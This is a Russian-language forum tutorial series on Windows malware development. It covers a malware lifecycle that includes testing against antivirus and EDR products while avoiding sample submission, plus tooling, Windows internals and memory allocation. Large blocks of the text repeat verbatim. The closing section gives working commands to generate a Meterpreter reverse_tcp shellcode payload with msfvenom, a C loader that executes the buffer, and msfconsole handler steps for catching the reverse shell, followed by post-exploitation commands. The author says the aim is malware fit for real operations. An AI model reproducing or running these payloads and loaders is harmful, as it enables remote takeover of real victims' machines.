Зачем изучать разработку вредоносных программ ?
Всем привет!
Решил перепостить свой цикл статей по разработки малвари.
Статьи будут оформлены в виде цикла статей.)
Зачем изучать разработку вредоносных программ ?
Есть несколько причин, по которым кто-то хотел бы изучить разработку вредоносных программ.
С точки зрения тестирования на проникновение часто необходимо выполнять определенные вредоносные задачи в среде клиента.
У тестировщиков обычно есть три основных варианта выбора инструментов для атаки:
1. Инструменты с открытым исходным кодом — эти инструменты, как правило обнаруживаются любым средствами защиты и без каких-то доработок мало пригодны для атак.
2. Покупка инструментов. Команды с большими бюджетами часто предпочитают покупать инструменты, чтобы сэкономить драгоценное время во время заданий.
3. Разработка пользовательских инструментов. Поскольку эти инструменты создаются по индивидуальному заказу, они имеют больше шансов найти какие-то уязвимости в системе и проверить какие-то нестандартные части системы.
Именно здесь знания о разработке вредоносных программ становятся первостепенными для более успешной оценки безопасности.
Какой язык программирования следует использовать?
С технической точки зрения для создания вредоносного ПО можно использовать любой язык программирования, например Python, PowerShell, C#, C, C++ и Go.
Есть несколько причин, по которым одни языки программирования преобладают над другими, когда дело доходит до разработки вредоносных программ, и это
обычно сводится к следующим пунктам:
- Некоторые языки не имеют нужного функционала, например прямой доступ к ОЗУ по указателям и т.д.
- Другие языки не позволяют быстро выполнить нужную задачу, например тот-же язык Си не имеет функционала которым может похвастаться C# или Python, например есть задачи которые на том-же Python можно решить за пару строчек кода, а в Си это будет портянка на несколько десятков тысяч строк.
- Но минусы Python и C#, что требуется интерпретатор, который должен присутствовать на целевой машине, что уже осложняет атаку.
- Также при выборе языка нужно учитывать знание и опыт разработчика.
Языки программирования можно разделить на две разные группы: высокоуровневые и низкоуровневые.
Высокий уровень — как правило, более абстрагирован от операционной системы, менее эффективен при работе с памятью и часто для безопасности ограничивает некоторый функционал программисту.
Примером языка программирования высокого уровня является Python, С#.
Низкоуровневый — обеспечивает способ взаимодействия с операционной системой на более близком уровне, а также предоставляет разработчику больше свободы при
взаимодействуя с системой. Пример низкоуровневого языка программирования Си, Ассемблер.
Отмечу это разделение условное, но нужно понимать ещё, что есть языки которые требуют интерпретатор для запуска программы (Python, Java и т.д.) и которые не требуют, т.е. будет собран бинарный исполняемый образ, для запуска которого ничего не нужно (Такие как Си, С++, Rust и т.д.).
Разработка вредоносных программ для Windows
Сцена разработки вредоносных программ для Windows изменилась за последние несколько лет и теперь в значительной степени сосредоточена на обходе защиты.
С развитием технологии уже недостаточно создавать вредоносное ПО, которое выполняет подозрительные команды или выполняет «вредоносные» действия.
Целью этих статей научить вас создавать вредоносное ПО, которое можно использовать в реальных боевых действиях.
Жизненный цикл разработки вредоносного ПО
По сути, вредоносное ПО — это часть программного обеспечения, предназначенная для выполнения определенных действий. Успешная реализация программного обеспечения требует процесса
известного как жизненный цикл разработки программного обеспечения (SDLC).
Точно так же хорошо построенное и сложное вредоносное ПО потребует специализированной версии SDLC, называемый жизненным циклом разработки вредоносных программ (MDLC).
MDLC может состоять из 5 основных этапов:
1. Разработка. Начните разработку или усовершенствование функциональности вредоносного ПО.
2. Тестирование. Выполните тесты, чтобы выявить скрытые ошибки в уже разработанном коде.
3. Тестирование AV/EDR в автономном режиме. Запускайте разработанное вредоносное ПО с максимально возможным количеством продуктов безопасности. Важно, чтобы тестирование проводилось в автономном режиме, чтобы убедиться, что образцы не отправляются поставщикам средств обеспечения безопасности.
При использовании Microsoft Defender это достигается за счет отключения автоматической отправки образцов и облачной защиты.
Хотя такое отключение не позволит в полной мере протестировать защиту.
4. Онлайн-тестирование AV/EDR. Запустите разработанное вредоносное ПО против продуктов безопасности, подключенных к Интернету. Облачные движки часто являются ключевыми компонентов в AV/EDR, и поэтому тестирование вашего вредоносного ПО на эти компоненты имеет решающее значение для получения более точных результатов.
Будьте осторожны так как этот шаг может привести к отправке в образцов в облачный механизм решения безопасности.
5. Анализ. На этом этапе необходимо понять какие средства безопасности блокируют ваше ПО, на сколько это критично и т.д.
На этом закончу!)
Пишите комментарии, следующие статьи будут более предметными, разберём инструменты разработки, потом будет небольшая статья по архитектуре винды и вперёд.
Инструменты
В предыдущей части мы затронули, зачем вообще разрабатывать вредоносное ПО, рассмотрели жизненный цикл такого ПО и немного затронули выбор языка разработки.
Перед началом путешествия по разработке вредоносного программного обеспечения необходимо подготовить рабочее пространство, установив инструменты для разработки вредоносных программ, а также их отладки.
Эти инструменты будут полезны в процессе разработки и анализа вредоносного программного обеспечения.
Отмечу что пока мы будем рассматривать ОС Windows, т.к. большинство малвари пишут именно под эту ОС, но также в будущем хочу затронуть Линукс и может-быть несколько статей будут затрагивать обсуждение малвари для мобильных устройств.)
Инструменты разработки/отладки и исследования программ
Установите следующие инструменты:
Visual Studio - это среда разработки, в которой будет происходить процесс написания и компиляции кода. Установите C/C++ Runtime.
x64dbg - x64dbg - это отладчик, который будет использоваться во всех следующих статьях для получения внутреннего понимания разработанной вредоносной программы.
PE-Bear - PE-bear - это многофункциональный инструмент обратной разработки для файлов РЕ. Он также будет использоваться для оценки разработанной вредоносной программы и поиска подозрительных признаков.
Process Hacker 2 - Process Hacker - это мощный универсальный инструмент, который помогает отслеживать ресурсы системы, отлаживать программное обеспечение и обнаруживать вредоносные программы.
Wireshark – это широко распространённый инструмент для захвата и анализа сетевого трафика, который активно используется как для образовательных целей, так и для устранения неполадок на компьютере или в сети.
Msfvenom - это инструмент интерфейса командной строки, который используется для создания пэйлоадов для разных платформ.
Рассмотрим эти инструменты более подробно:
Visual Studio - это интегрированная среда разработки (IDE), разработанная Microsoft. Она используется для разработки широкого спектра программного обеспечения, такого как веб-приложения, веб-сервисы и компьютерные программы.
Он также поставляется с инструментами разработки и отладки для создания и тестирования приложений.
Visual Studio будет основной средой разработки, используемой в этом курсе.
x64dbg - это отладочная утилита с открытым исходным кодом для x64 и x86 бинарных файлов Windows.
Она используется для анализа и отладки приложений в пользовательском режиме и драйверов в режиме ядра.
Она предоставляет графический интерфейс пользователя, который позволяет пользователям проверять и анализировать состояние своих программ, просматривать содержимое памяти, инструкции ассемблера и значения регистров.
С помощью x64dbg пользователи могут устанавливать точки останова, просматривать данные стека и кучи, выполнять пошаговое выполнение кода, читать и записывать значения памяти.
PE-Bear - это бесплатный инструмент с открытым исходным кодом, разработанный для помощи аналитикам вредоносного программного обеспечения и обратной разработки в быстром и простом анализе исполняемых файлов Windows Portable Executable (PE).
Он помогает анализировать и визуализировать структуру файла PE, просматривать импорты и экспорты каждого модуля и выполнять статический анализ для обнаружения аномалий и возможного вредоносного кода. PE-bear также включает функции проверки заголовка PE и секций, а также шестнадцатеричного редактора.
Process Hacker - это инструмент с открытым исходным кодом для просмотра и управления процессами и службами в операционной системе Windows.
Он похож на диспетчер задач, но предоставляет больше информации и расширенные функции.
С его помощью можно завершать процессы и службы, просматривать подробную информацию и статистику о процессах, устанавливать приоритеты процессов и многое другое.
Process Hacker будет полезен при анализе работающих процессов для просмотра таких элементов, как загруженные DLL-библиотеки и области памяти.
Wireshark – это широко распространённый инструмент для захвата и анализа сетевого трафика, который активно используется как для образовательных целей, так и для устранения неполадок на компьютере или в сети.
Wireshark работает практически со всеми протоколами модели OSI, обладает понятным для обычного пользователя интерфейсом и удобной системой фильтрации данных. Помимо всего этого, программа является кроссплатформенной и поддерживает следующие операционные системы: Windows, Linux, Mac OS X, Solaris, FreeBSD, NetBSD, OpenBSD.
Msfvenom - это генератор независимых нагрузок (payload) фреймворка Metasploit, который позволяет пользователям создавать различные типы нагрузок.
Эти нагрузки будут использоваться в создаваемом вредоносном программном обеспечении в рамках данного курса.
Также является заменой для инструментов msfpayload и msfencode.
Использование: /usr/bin/msfvenom [опции] <var=val>
Пример: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe
Опции:
Перед началом путешествия по разработке вредоносного программного обеспечения необходимо подготовить рабочее пространство, установив инструменты для разработки вредоносных программ, а также их отладки.
Эти инструменты будут полезны в процессе разработки и анализа вредоносного программного обеспечения.
Отмечу что пока мы будем рассматривать ОС Windows, т.к. большинство малвари пишут именно под эту ОС, но также в будущем хочу затронуть Линукс и может-быть несколько статей будут затрагивать обсуждение малвари для мобильных устройств.)
Инструменты разработки/отладки и исследования программ
Установите следующие инструменты:
Visual Studio - это среда разработки, в которой будет происходить процесс написания и компиляции кода. Установите C/C++ Runtime.
x64dbg - x64dbg - это отладчик, который будет использоваться во всех следующих статьях для получения внутреннего понимания разработанной вредоносной программы.
PE-Bear - PE-bear - это многофункциональный инструмент обратной разработки для файлов РЕ. Он также будет использоваться для оценки разработанной вредоносной программы и поиска подозрительных признаков.
Process Hacker 2 - Process Hacker - это мощный универсальный инструмент, который помогает отслеживать ресурсы системы, отлаживать программное обеспечение и обнаруживать вредоносные программы.
Wireshark – это широко распространённый инструмент для захвата и анализа сетевого трафика, который активно используется как для образовательных целей, так и для устранения неполадок на компьютере или в сети.
Msfvenom - это инструмент интерфейса командной строки, который используется для создания пэйлоадов для разных платформ.
Рассмотрим эти инструменты более подробно:
Visual Studio - это интегрированная среда разработки (IDE), разработанная Microsoft. Она используется для разработки широкого спектра программного обеспечения, такого как веб-приложения, веб-сервисы и компьютерные программы.
Он также поставляется с инструментами разработки и отладки для создания и тестирования приложений.
Visual Studio будет основной средой разработки, используемой в этом курсе.

x64dbg - это отладочная утилита с открытым исходным кодом для x64 и x86 бинарных файлов Windows.
Она используется для анализа и отладки приложений в пользовательском режиме и драйверов в режиме ядра.
Она предоставляет графический интерфейс пользователя, который позволяет пользователям проверять и анализировать состояние своих программ, просматривать содержимое памяти, инструкции ассемблера и значения регистров.
С помощью x64dbg пользователи могут устанавливать точки останова, просматривать данные стека и кучи, выполнять пошаговое выполнение кода, читать и записывать значения памяти.

PE-Bear - это бесплатный инструмент с открытым исходным кодом, разработанный для помощи аналитикам вредоносного программного обеспечения и обратной разработки в быстром и простом анализе исполняемых файлов Windows Portable Executable (PE).
Он помогает анализировать и визуализировать структуру файла PE, просматривать импорты и экспорты каждого модуля и выполнять статический анализ для обнаружения аномалий и возможного вредоносного кода. PE-bear также включает функции проверки заголовка PE и секций, а также шестнадцатеричного редактора.

Process Hacker - это инструмент с открытым исходным кодом для просмотра и управления процессами и службами в операционной системе Windows.
Он похож на диспетчер задач, но предоставляет больше информации и расширенные функции.
С его помощью можно завершать процессы и службы, просматривать подробную информацию и статистику о процессах, устанавливать приоритеты процессов и многое другое.
Process Hacker будет полезен при анализе работающих процессов для просмотра таких элементов, как загруженные DLL-библиотеки и области памяти.

Wireshark – это широко распространённый инструмент для захвата и анализа сетевого трафика, который активно используется как для образовательных целей, так и для устранения неполадок на компьютере или в сети.
Wireshark работает практически со всеми протоколами модели OSI, обладает понятным для обычного пользователя интерфейсом и удобной системой фильтрации данных. Помимо всего этого, программа является кроссплатформенной и поддерживает следующие операционные системы: Windows, Linux, Mac OS X, Solaris, FreeBSD, NetBSD, OpenBSD.

Msfvenom - это генератор независимых нагрузок (payload) фреймворка Metasploit, который позволяет пользователям создавать различные типы нагрузок.
Эти нагрузки будут использоваться в создаваемом вредоносном программном обеспечении в рамках данного курса.
Также является заменой для инструментов msfpayload и msfencode.
Использование: /usr/bin/msfvenom [опции] <var=val>
Пример: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe
Опции:
Спойлер: Опции
-1, --list <type> Список всех модулей.
Типы: payloads, encoders, nops, platforms, archs, encrypt, formats, all.
-p, --payload <payload> Используемая нагрузка (используйте --list payloads для просмотра списка, --list-options для аргументов).
--list-options Список стандартных, расширенных опций для --payload <value>.
-f, --format <format> Формат вывода (используйте --list formats для списка форматов).
-e, --encoder <encoder> Используемый энкодер (используйте --list encoders для просмотра списка).
--service-name <value> Имя службы при создании исполняемого файла службы.
--sec-name <value> Новое имя раздела при создании крупных исполняемых файлов для Windows. По умолчанию: случайная строка из 4 символов.
--smallest Генерация наименьшей возможной нагрузки, используя все доступные энкодеры.
--encrypt <value> Тип шифрования или кодирования для применения к коду оболочки (используйте --list encrypt для списка).
--encrypt-key <value> Ключ для --encrypt.
--encrypt-iv <value> Вектор инициализации для --encrypt.
-a, --arch <arch> Архитектура для --payload и --encoders (используйте --list archs для списка).
--platform <platform> Платформа для --payload (используйте --list platforms для списка).
-o, --out <path> Сохранить нагрузку в файл.
-b, --bad-chars <list> Список символов, которых нужно избегать. Пример: '\х@@\х Р'.
-n, --nopsled <length> Добавить пустой блок заданной длины перед нагрузкой.
--pad-nops Использовать длину блока, заданную опцией -n <length>, как общий размер нагрузки, автоматически добавляя пустой блок до нужного количества (длина блока минус длина нагрузки).
-s, --space <length> Максимальный размер результирующей нагрузки.
--encoder-space <length> Максимальный размер закодированной нагрузки (по умолчанию равен значению опции -s).
-i, --iterations <count> Количество итераций кодирования нагрузки.
-c, --add-code <path> Указать дополнительный файл с shell-кодом для включения.
-x, --template <path> Указать пользовательский исполняемый файл в качестве шаблона.
Типы: payloads, encoders, nops, platforms, archs, encrypt, formats, all.
-p, --payload <payload> Используемая нагрузка (используйте --list payloads для просмотра списка, --list-options для аргументов).
--list-options Список стандартных, расширенных опций для --payload <value>.
-f, --format <format> Формат вывода (используйте --list formats для списка форматов).
-e, --encoder <encoder> Используемый энкодер (используйте --list encoders для просмотра списка).
--service-name <value> Имя службы при создании исполняемого файла службы.
--sec-name <value> Новое имя раздела при создании крупных исполняемых файлов для Windows. По умолчанию: случайная строка из 4 символов.
--smallest Генерация наименьшей возможной нагрузки, используя все доступные энкодеры.
--encrypt <value> Тип шифрования или кодирования для применения к коду оболочки (используйте --list encrypt для списка).
--encrypt-key <value> Ключ для --encrypt.
--encrypt-iv <value> Вектор инициализации для --encrypt.
-a, --arch <arch> Архитектура для --payload и --encoders (используйте --list archs для списка).
--platform <platform> Платформа для --payload (используйте --list platforms для списка).
-o, --out <path> Сохранить нагрузку в файл.
-b, --bad-chars <list> Список символов, которых нужно избегать. Пример: '\х@@\х Р'.
-n, --nopsled <length> Добавить пустой блок заданной длины перед нагрузкой.
--pad-nops Использовать длину блока, заданную опцией -n <length>, как общий размер нагрузки, автоматически добавляя пустой блок до нужного количества (длина блока минус длина нагрузки).
-s, --space <length> Максимальный размер результирующей нагрузки.
--encoder-space <length> Максимальный размер закодированной нагрузки (по умолчанию равен значению опции -s).
-i, --iterations <count> Количество итераций кодирования нагрузки.
-c, --add-code <path> Указать дополнительный файл с shell-кодом для включения.
-x, --template <path> Указать пользовательский исполняемый файл в качестве шаблона.
Пожалуйста изучите эти инструменты более подробно самостоятельно, к сожалению описывать их более детально нет возможности, в сети статей очень много, далее в следующих статьях будет затронут немного язык Си, а потом немного архитектура ОС.
Вообще описывать всё подробно очень затратно, поэтому цель этих статей дать направление, если-же вы действительно хотите что-то изучать, то это в основном самостоятельная практика и изучение.
Но надеюсь эти статьи могут дать какое-то направление…)
Так какой-же язык выбрать !?
Вообще в сети много холиваров на эту тему.
Многие представители старой школы отказываются признавать новые технологии и считают разработку малвари, как низкоуровневую разработку, т.е. что-то там на уровне драйверов системы, какое-то аппаратное взаимодействие низкоуровневое, например работа с процессором, реверс и т.д.
Да, всё это может присутствовать в разработке, но необходимо понимать, что малварь сейчас весьма обширное понятие.
В общем я считаю, что разработка малвари, это системная разработка, ну т.е. нужно понимать в целом как работает система, обладать более глубокими знаниями в устройстве ОС.
А вот с выбором языка тут всё зависит от самой задачи, знаний языка и т.д.
Ещё хочется отметить, что существует много наработок уже и инструментов на разных языках, этими инструментами тоже нужно уметь пользоваться.)
Вот ну и последнее наверное, если почитать этот форум, то используется язык Си в основном, причин этому несколько:
1. Тут в основном изучение обхода средств защиты и т.д., поэтому язык Си более предпочтителен, т.к. нет ограничений работы с памятью и т.д.
2. Программы собранные компилятором Си легче исследовать, например в том-же дизассемблере.
Но понятно что куча минусов этого языка, начиная от безопасности и заканчивая отсутствием каких-то фишек, как например в С++, хотя если говорит про С++ там тоже есть не мало минусов, важна практика...)
Шпаргалка по архитектуре винды
Архитектура любой ОС, очень сложная система, так наскоком не изучишь.
Но т.к. разработка малвари - Это системная разработка, какое-то понимание этой самой архитектуры нужно иметь, поэтому данная шпаргалка даст небольшое понимание, но к сожалению не более того.
Процессор внутри компьютера, на которой работает операционная система Windows, может работать в двух разных режимах: режиме пользователя и режиме ядра.
Приложения работают в режиме пользователя, а компоненты операционной системы работают в режиме ядра.
Когда приложение хочет выполнить задачу, например, создать файл, оно не может сделать это самостоятельно.
Единственная сущность, которая может выполнить задачу - это ядро, поэтому приложения должны следовать определенному порядку вызова функций.
Ниже представлена диаграмма, показывающая высокий уровень этого потока.
Процессы пользователя:
Затем, createFile вызывает свою эквивалентную функцию NTAPI, NtCreateFile, которая предоставляется через ntdll.dll.
Ntdll.dll затем выполняет команду sysenter (x86) или syscall (x64), которая переводит выполнение в режим ядра.
Затем используется функция ядра ntcreaterFile, которая вызывает драйверы ядра и модули для выполнения запрашиваемой задачи.
Пример стека вызова функций
Этот пример показывает стека вызова функций через отладчик. Это делается путем подключения отладчика к бинарному файлу, который создает файл через API Windows createFilew.
Пользовательское приложение вызывает функцию createrFilew WinAPI.
Далее, вызов из CreateFileW функции NtCreateFile.
Наконец, функция NtCreateFile использует инструкцию syscall для перехода из режима пользователя в режим ядра.
Ядро затем создает файл.
Прямой вызов Native API (NTAPI)
Важно отметить, что приложения могут вызывать syscalls (т.е. функции NTDLL) напрямую, не обращаясь к API Windows.
API Windows просто действует как оболочка для Native API. Сказав это, стоит отметить, что Native API сложнее в использовании, потому что он официально не документирован Microsoft.
Более того, Microsoft советует не использовать функции Native API, потому что они могут быть изменены в любое время без предупреждения.
Теперь рассмотрим управление памятью в Windows
Виртуальная память и разбиение на страницы
Память в современных операционных системах не отображается напрямую на физическую память (т.е. оперативную память). Вместо этого процессы используют виртуальные адреса памяти, которые отображаются на физические адреса памяти. Причин для этого несколько, но в конечном итоге цель состоит в том, чтобы сохранить как можно больше физической памяти.
Виртуальная память может быть отображена на физическую память, но может также храниться на диске. С помощью виртуального адресования памяти становится возможным для нескольких процессов делить один и тот же физический адрес, имея уникальный виртуальный адрес памяти.
Виртуальная память опирается на концепцию разбиения памяти на страницы, которое делит память на блоки по 4КБ, называемые "страницами".
Смотрите изображение ниже из книги "Windows Internals 7th edition - part 1".
Страницы, находящиеся в виртуальном адресном пространстве процесса, могут находиться в одном из 3 состояний:
Современные операционные системы обычно имеют встроенные механизмы защиты памяти для предотвращения эксплуатации и атак. Это также важно учитывать, так как они, скорее всего, будут встречаться при создании или отладке вредоносного ПО.
Пример выделения памяти
В этом примере рассматриваются небольшие фрагменты кода, чтобы лучше понять, как можно взаимодействовать с памятью Windows через функции С и Windows API. Первый шаг во взаимодействии с памятью - это выделение памяти. Ниже приведен фрагмент кода, который демонстрирует несколько способов выделения памяти, что в сущности сводится к резервированию памяти внутри выполняющегося процесса.
Функции выделения памяти возвращают базовый адрес, который является просто указателем на начало выделенного блока памяти. Используя приведенные выше фрагменты, pAddress будет базовым адресом выделенного блока памяти. Используя этот указатель, можно выполнить несколько действий, таких как чтение, запись и выполнение. Типы действий, которые могут быть выполнены, будут зависеть от защиты, назначенной выделенному региону памяти.
Ниже приведен образец того, как выглядит pAddress в отладчике.
Когда память выделена, она может быть либо заполнена нулями, либо содержать случайные данные. Некоторые функции выделения памяти предоставляют опцию обнуления региона памяти в процессе выделения.
Следующим шагом после выделения памяти обычно является запись в этот буфер. Для записи в память можно использовать несколько функций, но в этом примере используется memcpy.
HeapAlloc использует флаг HEAP_ZERO_MEMORY, который приводит к инициализации выделенной памяти нулями. Затем строка копируется в выделенную память с помощью memcpy. Последний параметр в memcpy - это количество байтов, которые нужно скопировать.
Отмечу что указанный пример не безопасен, т.к. strlen не учитывает нулевой символ в конце, лучше использовать специализированные функции для работы со строками, например strcpy.
Но для демонстрации работы с памятью, пример сойдет.)
Когда приложению больше не нужен выделенный буфер, настоятельно рекомендуется освободить буфер, чтобы избежать утечек памяти. В зависимости от того, какая функция использовалась для выделения памяти, у нее будет соответствующая функция освобождения памяти. Например:
Также рекомендуется после освобождения памяти устанавливать значение указателю nullptr, что-бы не было возможности повторно использовать невалидный адрес в программе.)
В следующей части рассмотрим работу с Windows API.
Но т.к. разработка малвари - Это системная разработка, какое-то понимание этой самой архитектуры нужно иметь, поэтому данная шпаргалка даст небольшое понимание, но к сожалению не более того.
Процессор внутри компьютера, на которой работает операционная система Windows, может работать в двух разных режимах: режиме пользователя и режиме ядра.
Приложения работают в режиме пользователя, а компоненты операционной системы работают в режиме ядра.
Когда приложение хочет выполнить задачу, например, создать файл, оно не может сделать это самостоятельно.
Единственная сущность, которая может выполнить задачу - это ядро, поэтому приложения должны следовать определенному порядку вызова функций.
Ниже представлена диаграмма, показывающая высокий уровень этого потока.

Процессы пользователя:
- Процессы пользователя - это программа/приложение, выполненное пользователем, такое как Notepad, Google Chrome или Microsoft Word.
- Библиотеки DLL подсистемы - DLL, которые содержат функции API, вызываемые процессами пользователя. Примером этого может служить kernel32.dll, экспортирующая функцию CreateFile Windows API (WinAPI), другими общими DLL подсистемы являются ntdll.dll, advapi32.dll и user32.dll.
- Ntdll.dll - это системная DLL, которая является самым низким слоем, доступным в режиме пользователя. Это специальная DLL, которая создает переход из режима пользователя в режим ядра. Это часто называют Native API или NTAPI.
- Executive Kernel - это то, что известно как Windows Kernel, и оно вызывает другие драйверы и модули, доступные в режиме ядра, чтобы выполнить задачи. Ядро Windows частично хранится в файле под названием ntoskrnl.exe по пути "C:\Windows\System32".
Затем, createFile вызывает свою эквивалентную функцию NTAPI, NtCreateFile, которая предоставляется через ntdll.dll.
Ntdll.dll затем выполняет команду sysenter (x86) или syscall (x64), которая переводит выполнение в режим ядра.
Затем используется функция ядра ntcreaterFile, которая вызывает драйверы ядра и модули для выполнения запрашиваемой задачи.

Пример стека вызова функций
Этот пример показывает стека вызова функций через отладчик. Это делается путем подключения отладчика к бинарному файлу, который создает файл через API Windows createFilew.
Пользовательское приложение вызывает функцию createrFilew WinAPI.

Далее, вызов из CreateFileW функции NtCreateFile.

Наконец, функция NtCreateFile использует инструкцию syscall для перехода из режима пользователя в режим ядра.
Ядро затем создает файл.
Прямой вызов Native API (NTAPI)
Важно отметить, что приложения могут вызывать syscalls (т.е. функции NTDLL) напрямую, не обращаясь к API Windows.
API Windows просто действует как оболочка для Native API. Сказав это, стоит отметить, что Native API сложнее в использовании, потому что он официально не документирован Microsoft.
Более того, Microsoft советует не использовать функции Native API, потому что они могут быть изменены в любое время без предупреждения.
Теперь рассмотрим управление памятью в Windows
Виртуальная память и разбиение на страницы
Память в современных операционных системах не отображается напрямую на физическую память (т.е. оперативную память). Вместо этого процессы используют виртуальные адреса памяти, которые отображаются на физические адреса памяти. Причин для этого несколько, но в конечном итоге цель состоит в том, чтобы сохранить как можно больше физической памяти.
Виртуальная память может быть отображена на физическую память, но может также храниться на диске. С помощью виртуального адресования памяти становится возможным для нескольких процессов делить один и тот же физический адрес, имея уникальный виртуальный адрес памяти.
Виртуальная память опирается на концепцию разбиения памяти на страницы, которое делит память на блоки по 4КБ, называемые "страницами".
Смотрите изображение ниже из книги "Windows Internals 7th edition - part 1".

Страницы, находящиеся в виртуальном адресном пространстве процесса, могут находиться в одном из 3 состояний:
- Свободная - Страница ни в чем не участвует, она недоступна для процесса. Она доступна для резервирования или коммитирования.
- Зарезервированная - Страница зарезервирована для будущего использования. Диапазон адресов не может быть использован другими функциями выделения. Страница не доступна и не связана с физическим хранилищем. Она доступна для коммитирования.
- Закоммитированная - Страница доступна и доступ к ней контролируется одной из констант защиты памяти. Система инициализирует и загружает каждую коммитированную страницу в физическую память только при первой попытке чтения или записи на эту страницу. Когда процесс завершается, система освобождает хранилище для закоммитированных страниц.
- PAGE_NOACCESS - отключает все доступы к закоммитированному региону страниц. Попытка чтения из этого региона, записи в него или выполнения команд приведет к нарушению доступа.
- PAGE_EXECUTE_READWRITE - включает чтение, запись и выполнение. Этот параметр крайне не рекомендуется к использованию и обычно является плохим показателем, поскольку память редко может быть одновременно доступна для записи и выполнения.
- PAGE_READONLY - включает только чтение в закоммитированном регионе страниц. Попытка записи в закоммитированный регион приведет к нарушению доступа.
Современные операционные системы обычно имеют встроенные механизмы защиты памяти для предотвращения эксплуатации и атак. Это также важно учитывать, так как они, скорее всего, будут встречаться при создании или отладке вредоносного ПО.
- Предотвращение выполнения данных (DEP) - DEP это функция защиты памяти на уровне системы, которая встроена в операционную систему, начиная с Windows XP и Windows Server 2003. Если параметр защиты страницы установлен в PAGE_READONLY, то DEP предотвратит выполнение кода в этом регионе памяти.
- Случайное расположение адресного пространства (ASLR) - ASLR это техника защиты памяти, используемая для предотвращения эксплуатации уязвимостей направленные на адреса памяти. ASLR случайным образом меняет положение ключевых областей данных процесса в адресном пространстве, включая базу исполняемого файла и положения стека, кучи и библиотек.
Пример выделения памяти
В этом примере рассматриваются небольшие фрагменты кода, чтобы лучше понять, как можно взаимодействовать с памятью Windows через функции С и Windows API. Первый шаг во взаимодействии с памятью - это выделение памяти. Ниже приведен фрагмент кода, который демонстрирует несколько способов выделения памяти, что в сущности сводится к резервированию памяти внутри выполняющегося процесса.
C:
// Allocating а memory buffer 100 bytes
// Method 1 — Using malloc()
PVOID pAddress = malloc(100);
// Method 2 — Using НеарА11ос ()
PVOID pAddress = HeapAlloc (GetProcessHeap (), 0, 100);
// Method 3 — Using LocalAlloc ()
PVOID pAddress = LocalAlloc(LPTR, 100);Функции выделения памяти возвращают базовый адрес, который является просто указателем на начало выделенного блока памяти. Используя приведенные выше фрагменты, pAddress будет базовым адресом выделенного блока памяти. Используя этот указатель, можно выполнить несколько действий, таких как чтение, запись и выполнение. Типы действий, которые могут быть выполнены, будут зависеть от защиты, назначенной выделенному региону памяти.
Ниже приведен образец того, как выглядит pAddress в отладчике.

Когда память выделена, она может быть либо заполнена нулями, либо содержать случайные данные. Некоторые функции выделения памяти предоставляют опцию обнуления региона памяти в процессе выделения.

Следующим шагом после выделения памяти обычно является запись в этот буфер. Для записи в память можно использовать несколько функций, но в этом примере используется memcpy.
C:
PVOID pAddress = HeapAlloc (GetProcessHeap (), HEAP_ZERO_MEMORY, 100);
CHAR* cString = "Malware Academy Is The Best";
memcpy (pAddress, cString, strlen(cString));HeapAlloc использует флаг HEAP_ZERO_MEMORY, который приводит к инициализации выделенной памяти нулями. Затем строка копируется в выделенную память с помощью memcpy. Последний параметр в memcpy - это количество байтов, которые нужно скопировать.

Отмечу что указанный пример не безопасен, т.к. strlen не учитывает нулевой символ в конце, лучше использовать специализированные функции для работы со строками, например strcpy.
Но для демонстрации работы с памятью, пример сойдет.)
Когда приложению больше не нужен выделенный буфер, настоятельно рекомендуется освободить буфер, чтобы избежать утечек памяти. В зависимости от того, какая функция использовалась для выделения памяти, у нее будет соответствующая функция освобождения памяти. Например:
- При выделении памяти с помощью malloc требуется использование функции free.
- При выделении памяти с помощью HeapAlloc требуется использование функции HeapFree.
- При выделении памяти с помощью LocalAlloc требуется использование функции LocalFree.


Также рекомендуется после освобождения памяти устанавливать значение указателю nullptr, что-бы не было возможности повторно использовать невалидный адрес в программе.)
В следующей части рассмотрим работу с Windows API.
Что такое payload и shell code
Что такое шелл-код?
Шелл-код (Он-же Payload) – это набор инструкций машинного кода, который может быть выполнен при внедрении в другой процесс. Он часто используется в эксплойтах для получения контроля над системой.
Есть способы генерации простеньких шелл-кодов:
Создание и использование шеллкода при помощи инструментов, таких как msvenom и Metasploit, довольно популярно среди исследователей безопасности и пентестеров. Давайте рассмотрим, как создать шеллкод и внедрить его в программу на языке С.
Шаг 1: Создание шеллкода с помощью msvenom
msvenom - это инструмент, входящий в состав Metasploit Framework, который позволяет создавать различные виды пейлоадов.
Большинство дистрибутивов Linux позволяют легко установить Metasploit. Пример установки на Kali Linux или Debian:
C:
sudo apt-get update
sudo apt-get install metasploit-frameworkПосле установки и запуска msvenom, вы можете просмотреть доступные опции и параметры:
Код:
msvenom --helpХотя Metasploit и разработан преимущественно для Linux, есть версия для Windows, но установка может быть менее тривиальной. Рекомендуется использовать виртуальную машину с Linux (например, Kali Linux) на вашем компьютере под Windows для работы с Metasploit.
Итак, допустим, вы хотите создать обратное TCP-соединение (reverse shell) от целевой машины к вашей машине. Вы можете сгенерировать шеллкод следующим образом:
C:
msvenom -p windows/meterpreter/reverse_tcp LHOST=ваш_ип LPORT=4444 -f cЭто создаст C-представление шеллкода, где LHOST - это IP-адрес вашей машины, а LPORT - порт, на который вы хотите, чтобы целевая машина подключилась.
Шаг 2: Внедрение шеллкода в программу на С
После создания шеллкода с помощью msvenom, вам будет предоставлен код на языке C, который вы можете скопировать и использовать в вашей программе:
C:
unsigned char buf[] =
"\x00\x00\x00..."; // здесь будет ваш шеллкод
int main(int argc, char **argv) {
void (*func)();
func = (void (*)()) buf;
func();
return 0;
}Шаг 3: Ожидание обратного соединения
Запустите Metasploit и используйте подходящий exploit/multi/handler для прослушивания обратного соединения:
C:
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST ваш_ип
set LPORT 4444
runТеперь, когда вы запустите свою программу на Си, она создаст обратное соединение к вашему Metasploit, и вы получите доступ к meterpreter на целевой машине.
После того как целевая машина подключится, вы увидите номер сессии. Вы можете взаимодействовать с этой сессией используя:
Код:
sessions -i номер_сессииНапример:
Код:
sessions -i 1Теперь вы находитесь в Meterpreter и можете выполнять различные команды.
Meterpreter — это динамический и расширяемый инструмент, который предоставляется Metasploit и позволяет выполнять множество функций на компрометированной машине. Вот некоторые из действий, которые можно выполнять в сессии Meterpreter:
- Сбор информации:
- sysinfo: Получение информации о системе, включая версию ОС, имя хоста и архитектуру.
- getuid: Получение идентификатора текущего пользователя.
- getpid: Получение ID текущего процесса.
